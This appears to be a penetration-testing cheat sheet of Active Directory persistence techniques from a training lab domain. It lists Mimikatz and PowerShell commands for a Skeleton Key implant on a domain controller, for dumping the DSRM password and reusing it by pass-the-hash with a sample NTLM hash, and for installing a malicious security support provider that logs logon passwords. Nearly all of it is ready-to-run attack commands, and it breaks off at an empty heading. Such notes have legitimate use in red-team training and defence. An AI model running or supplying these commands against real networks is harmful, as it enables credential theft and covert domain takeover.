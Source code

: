 ### Skeleton Key
#### Invoke-Mimikatz
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```
```powershell
Enter-PSSession -Computername dcorp-dc -credential dcorp\Administrator
```
```powershell
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
!-
```

### Directory Services Restore Mode - DSRM
#### Invoke-Mimikatz - Dump DSRM Password
```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam' -ComputerName dcorp-dc
```
```powershell
Enter-PSSession -Computername dcorp-dc
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:powershell.exe"'
ls \\dcorp-dc\C$
```

### Custom Security Support Provider - SSP
#### Drop mimilib.dll to System32 & add to HKLM\SYSTEM\CurrentControlSet\Control\lsa\Security Packages
```powershell
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages' $packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```
#### Invoke-Mimikatz
```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```
All Local Logons on the DC are logged to

C:\Windows\system32\mimilsa.log

### Persistence with ACLs - AdminSDHolder
